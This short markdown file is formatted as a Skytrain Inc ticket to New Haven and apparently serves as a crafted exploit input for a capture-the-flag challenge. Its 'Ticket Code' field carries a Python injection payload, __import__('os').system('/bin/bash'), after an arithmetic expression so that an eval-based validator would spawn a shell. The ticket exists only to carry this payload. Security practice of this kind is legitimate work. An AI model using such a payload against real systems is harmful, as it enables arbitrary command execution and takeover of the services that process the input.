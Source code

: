 # Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**32+410** and **__import__("os").system("/bin/bash")**
##Issued: 2021/04/06
#End Ticket
